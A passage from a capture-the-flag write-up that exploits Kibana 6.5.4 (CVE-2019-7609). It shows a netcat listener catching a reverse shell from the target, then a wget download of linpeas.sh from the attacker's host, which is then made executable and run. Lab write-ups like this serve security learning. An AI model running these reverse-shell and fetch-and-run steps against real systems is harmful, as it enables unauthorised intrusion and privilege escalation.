So, now that I know version number (6.5.4) I made some researchs and I found this [github repo](https://github.com/mpgn/CVE-2019-7609) and an article about [CVE-2019-7609](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability)

<div><p align="center"><img  src="./img/cve.png" /></div>

I followed the instructions in the article, and on my machine I listened for connections via netcat. After a few moments I got a working reverse shell.

```
$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.250.164 48266
bash: cannot set terminal process group (952): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kiba@ubuntu:/home/kiba/kibana/bin$ 
```

Using a python server, I downloaded `linpeas.sh` script from my attacker machine to a vulnerable machine and I ran it.
```
$ wget http://10.9.15.73:8585/linpeas.sh
--2023-06-07 00:26:46--  http://10.9.15.73:8585/linpeas.sh
Connecting to 10.9.15.73:8585... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830030 (811K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 810.58K  2.62MB/s    in 0.3s    

2023-06-07 00:26:47 (2.62 MB/s) - 'linpeas.sh' saved [830030/830030]

$ chmod +x linpeas.sh
$ ./linpeas.sh
```
